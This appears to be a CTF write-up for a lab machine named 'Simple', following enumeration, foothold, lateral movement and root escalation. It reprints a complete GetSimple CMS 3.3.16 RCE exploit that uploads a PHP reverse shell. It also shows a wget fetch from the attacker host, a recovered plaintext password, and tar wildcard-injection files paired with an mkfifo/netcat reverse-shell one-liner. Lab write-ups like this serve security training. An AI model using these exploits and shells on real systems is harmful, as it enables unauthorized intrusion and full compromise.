

# Simple

###  'Simple,' a Capture The Flag (CTF) challenge designed to enhance  OSINT and server exploitation skills. In 'Simple,' you'll delve into open services, exploit server misconfigurations, and master wildcard injection for privilege escalation. 

### Key Processes
The 'Simple' box hosts an open Apache HTTP Server on port 80, running GetSimple CMS version 3.3.16, a known vulnerability to Remote Code Execution (RCE). Additionally, an internal MySQL service is running to support database queries for the CMS, and it can be accessed by any user within the machine. Furthermore, SSH is available on port 22.

### Crons
On the 'Simple' box, a critical element of automation involves a cronjob executed every minute by the root user. This cronjob runs a bash script that plays a pivotal role in an attacker's arsenal, facilitating privilege escalation through wildcard injection. The script, which is essential for the exploitation process, has been ingeniously crafted to take advantage of specific system vulnerabilities. The cronjob's frequent execution ensures that the exploitation process is continuously active, creating an opportunity for attackers to elevate their privileges.

### Other
Furthermore, it's worth noting that the MySQL server on the 'Simple' box lacks password protection, which poses a significant security concern. This vulnerability allows any user with internal access to the machine to easily access the MySQL server. Upon gaining access, an attacker can potentially extract credentials hidden under the user 'simpleuser,' opening up opportunities for lateral movement within the system.

# Writeup

## Enumeration

We Stared an Nmap scan to see the open ports on the machine :

```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.254.130 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-23 06:20 EDT
Nmap scan report for 192.168.254.130
Host is up (0.0014s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5de50e94d7f9ec71b4af0d064dc50ecf (RSA)
|   256 d66b6fa080d29209d8ad7e089f518133 (ECDSA)
|_  256 ea4bf5e97f91743d0dca403be52f0b5b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Unveiling the Art of Ethical Hacking - Simple
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.50 seconds
```

Then We enumerated the Port 80 by using a web browser and found a Web Page :



Upon Looking further, we were able to find the version and the CMS name and a publisher name of the site that might be useful later :


# Foothold
We initiated a Google search to explore potential exploits for GetSimpleCMS Version 3.3.16. Our efforts yielded a critical vulnerability within the CMS that enables attackers to achieve Remote Code Execution (RCE) on the target machine. This discovery marks a significant point of entry for attackers looking to compromise the system.

Exploit Link : https://www.exploit-db.com/exploits/51475

Exploit :

```
# Exploit Title: GetSimple CMS v3.3.16 - Remote Code Execution (RCE)
# Data: 18/5/2023
# Exploit Author : Youssef Muhammad
# Vendor: Get-simple
# Software Link:
# Version app: 3.3.16
# Tested on: linux
# CVE: CVE-2022-41544

import sys
import hashlib
import re
import requests
from xml.etree import ElementTree
from threading import Thread
import telnetlib

purple = "\033[0;35m"
reset = "\033[0m"
yellow = "\033[93m"
blue = "\033[34m"
red = "\033[0;31m"

def print_the_banner():
    print(purple + '''
 CCC V     V EEEE      22   000   22   22      4  4  11  5555 4  4 4  4 
C    V     V E        2  2 0  00 2  2 2  2     4  4 111  5    4  4 4  4 
C     V   V  EEE  ---   2  0 0 0   2    2  --- 4444  11  555  4444 4444 
C      V V   E         2   00  0  2    2          4  11     5    4    4 
 CCC    V    EEEE     2222  000  2222 2222        4 11l1 555     4    4 
 '''+ reset)

def get_version(target, path):
    r = requests.get(f"http://{target}{path}admin/index.php")
    match = re.search("jquery.getsimple.js\?v=(.*)\"", r.text)
    if match:
        version = match.group(1)
        if version <= "3.3.16":
            print( red + f"[+] the version {version} is vulnrable to CVE-2022-41544")
        else:
            print ("This is not vulnrable to this CVE")
        return version
    return None

def api_leak(target, path):
    r = requests.get(f"http://{target}{path}data/other/authorization.xml")
    if r.ok:
        tree = ElementTree.fromstring(r.content)
        apikey = tree[0].text
        print(f"[+] apikey obtained {apikey}")
        return apikey
    return None

def set_cookies(username, version, apikey):
    cookie_name = hashlib.sha1(f"getsimple_cookie_{version.replace('.', '')}{apikey}".encode()).hexdigest()
    cookie_value = hashlib.sha1(f"{username}{apikey}".encode()).hexdigest()
    cookies = f"GS_ADMIN_USERNAME={username};{cookie_name}={cookie_value}"
    headers = {
        'Content-Type':'application/x-www-form-urlencoded',
        'Cookie': cookies
    }
    return headers

def get_csrf_token(target, path, headers):
    r = requests.get(f"http://{target}{path}admin/theme-edit.php", headers=headers)
    m = re.search('nonce" type="hidden" value="(.*)"', r.text)
    if m:
        print("[+] csrf token obtained")
        return m.group(1)
    return None

def upload_shell(target, path, headers, nonce, shell_content):
    upload_url = f"http://{target}{path}admin/theme-edit.php?updated=true"
    payload = {
        'content': shell_content,
        'edited_file': '../shell.php',
        'nonce': nonce,
        'submitsave': 1
    }
    try:
        response = requests.post(upload_url, headers=headers, data=payload)
        if response.status_code == 200:
            print("[+] Shell uploaded successfully!")
        else:
            print("(-) Shell upload failed!")
    except requests.exceptions.RequestException as e:
        print("(-) An error occurred while uploading the shell:", e)
def shell_trigger(target, path):
    url = f"http://{target}{path}/shell.php"
    try:
        response = requests.get(url)
        if response.status_code == 200:
            print("[+] Webshell trigged successfully!")
        else:
            print("(-) Failed to visit the page!")
    except requests.exceptions.RequestException as e:
        print("(-) An error occurred while visiting the page:", e)

def main():
    if len(sys.argv) != 5:
        print("Usage: python3 CVE-2022-41544.py <target> <path> <ip:port> <username>")
        return

    target = sys.argv[1]
    path = sys.argv[2]
    if not path.endswith('/'):
        path += '/'

    ip, port = sys.argv[3].split(':')
    username = sys.argv[4]
    shell_content = f"""<?php
    $ip = '{ip}';
    $port = {port};
    $sock = fsockopen($ip, $port);
    $proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
    """

    version = get_version(target, path)
    if not version:
        print("(-) could not get version")
        return

    apikey = api_leak(target, path)
    if not apikey:
        print("(-) could not get apikey")
        return

    headers = set_cookies(username, version, apikey)

    nonce = get_csrf_token(target, path, headers)
    if not nonce:
        print("(-) could not get nonce")
        return

    upload_shell(target, path, headers, nonce, shell_content)
    shell_trigger(target, path)

if __name__ == '__main__':
    print_the_banner()
    main()
```

Utilizing the identified exploit for GetSimpleCMS Version 3.3.16, we executed a successful attack that resulted in a reverse shell connection to the target machine. The reverse shell was established under the 'www-data' user context, providing us with an initial foothold within the system:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 exploit.py 192.168.254.130 / 192.168.254.129:1234 simpleuser
/home/kali/Downloads/exploit.py:16: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  import telnetlib

 CCC V     V EEEE      22   000   22   22      4  4  11  5555 4  4 4  4 
C    V     V E        2  2 0  00 2  2 2  2     4  4 111  5    4  4 4  4 
C     V   V  EEE  ---   2  0 0 0   2    2  --- 4444  11  555  4444 4444 
C      V V   E         2   00  0  2    2          4  11     5    4    4 
 CCC    V    EEEE     2222  000  2222 2222        4 11l1 555     4    4 
 
[+] the version 3.3.16 is vulnrable to CVE-2022-41544
[+] apikey obtained cd5ed65b315f5017db46d154b38256b7
[+] csrf token obtained
[+] Shell uploaded successfully!
[+] Webshell trigged successfully!
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 1234
listening on [any] 1234 ...
192.168.254.130: inverse host lookup failed: Unknown host
connect to [192.168.254.129] from (UNKNOWN) [192.168.254.130] 59872
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@simple:/var/www/html/getsimple$ whoami
whoami
www-data
www-data@simple:/var/www/html/getsimple$ 
```

# Lateral Movement

As part of our exploitation strategy, we proceeded to transfer the 'linpeas.sh' binary to the compromised machine. This versatile script, 'linpeas.sh,' is a powerful tool commonly used for conducting Linux privilege escalation checks. By running 'linpeas.sh' on the target system, we aimed to thoroughly assess potential avenues for escalating our privileges and gaining higher levels of access within the compromised environment:

```
www-data@simple:/var/www/html/getsimple$ cd /tmp
cd /tmp
www-data@simple:/tmp$ wget http://192.168.254.129:8000/linpeas.sh
wget http://192.168.254.129:8000/linpeas.sh
--2023-09-23 10:39:50--  http://192.168.254.129:8000/linpeas.sh
Connecting to 192.168.254.129:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134168 (131K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 131.02K  --.-KB/s    in 0.03s   

2023-09-23 10:39:50 (4.90 MB/s) - ‘linpeas.sh’ saved [134168/134168]

www-data@simple:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@simple:/tmp$ ./linpeas.sh

```

During our privilege escalation efforts, a significant discovery was made. We identified the presence of a MySQL service running on the target system, and to our surprise, it was accessible without any password protection. This security oversight allowed any user with internal access to the machine to connect to the MySQL service without the need for credentials, exposing potential avenues for further exploration and lateral movement within the system:


As part of our enumeration process, we delved into the MySQL database on the target system. Through meticulous investigation, we successfully retrieved the password associated with a user named 'getsimpleuser.' This crucial credential acquisition opened up further possibilities for exploitation and lateral movement, as we gained access to the 'getsimpleuser' account :

```
www-data@simple:/tmp$ mysql
mysql
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 13
Server version: 8.0.34-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| getsimpledb        |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.05 sec)

mysql> use getsimpledb;
use getsimpledb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-----------------------+
| Tables_in_getsimpledb |
+-----------------------+
| users                 |
+-----------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----+--------------+------------------+
| id | username     | password         |
+----+--------------+------------------+
|  1 | getsimpleuser | JpdPLGHB9qeDrgdg |
+----+--------------+------------------+
1 row in set (0.00 sec)

mysql>
```

While conducting a thorough system analysis, we explored the '/etc/passwd' file and made a significant discovery. We identified the existence of a user account named 'simpleuser' on the target machine. This finding provided us with valuable information about additional user accounts, potentially expanding our avenues for further exploitation and lateral movement within the system:


Building upon our previous discoveries, we leveraged the password we acquired from the MySQL database to gain unauthorized access to the 'getsimple' user account. This successful login allowed us to assume the identity of 'getsimple' and further advance our penetration efforts, increasing our control over the compromised system:

```
www-data@simple:/tmp$ su simpleuser
su simpleuser
Password: JpdPLGHB9qeDrgdg

simpleuser@simple:/tmp$ whoami
whoami
simpleuser
simpleuser@simple:/tmp$ cd /home
cd /home
simpleuser@simple:/home$ ls          
ls
simpleuser
simpleuser@simple:/home$ cd simpleuser
cd simpleuser
simpleuser@simple:~$ ls
ls
backup.sh  backupzip.tar  user.txt
simpleuser@simple:~$
```

# Privilege Escalation

```
simpleuser@simple:~$ ls -la
ls -la
total 64
drwx------ 4 simpleuser simpleuser  4096 Sep 23 05:51 .
drwxr-xr-x 3 root       root        4096 Sep 17 13:21 ..
-rwxr-xr-x 1 root       root          60 Sep 23 05:43 backup.sh
-rw-r--r-- 1 root       root       10240 Sep 23 10:45 backupzip.tar
-rw------- 1 simpleuser simpleuser  2148 Sep 23 06:04 .bash_history
-rw-r--r-- 1 simpleuser simpleuser   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 simpleuser simpleuser  3771 Feb 25  2020 .bashrc
drwx------ 2 simpleuser simpleuser  4096 Sep 17 13:25 .cache
drwxrwxr-x 3 simpleuser simpleuser  4096 Sep 17 17:26 .local
-rw-r--r-- 1 root       root        1053 Sep 23 05:47 .mail.txt
-rw------- 1 simpleuser simpleuser   121 Sep 17 17:15 .mysql_history
-rw-r--r-- 1 simpleuser simpleuser   807 Feb 25  2020 .profile
-rw-rw-r-- 1 simpleuser simpleuser    66 Sep 17 17:26 .selected_editor
-rw-r--r-- 1 simpleuser simpleuser     0 Sep 17 13:26 .sudo_as_admin_successful
-rw-r--r-- 1 root       root          33 Sep 23 05:51 user.txt


simpleuser@simple:~$
```

We executed Linpeas again and found that there is a cronjob running by 'root' every minute :


We conducted a thorough examination of the 'backup.sh' file and uncovered a critical security flaw within its code. This script is responsible for archiving everything in the current directory into a '.tgz' file. However, the noteworthy detail here is the presence of an asterisk * at the end of the code. This seemingly innocuous wildcard character can be strategically exploited using a technique known as wildcard injection, providing attackers with a means to escalate privileges within the system.

```
simpleuser@simple:~$ echo "mkfifo /tmp/lhennp; nc 192.168.254.129 4444 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
<in/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
simpleuser@simple:~$ chmod +x shell.sh
chmod +x shell.sh
simpleuser@simple:~$ echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint-action=exec=sh shell.sh"
simpleuser@simple:~$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
simpleuser@simple:~$ ls
ls
 backup.sh      '--checkpoint=1'                         shell.sh
 backupzip.tar  '--checkpoint-action=exec=sh shell.sh'   user.txt
simpleuser@simple:~
```

Taking advantage of the identified vulnerabilities, we strategically set up a listener using netcat (nc) to establish a covert communication channel with the target system. This method allowed us to execute commands and ultimately gain a root-level shell, thereby achieving full control over the compromised system. :


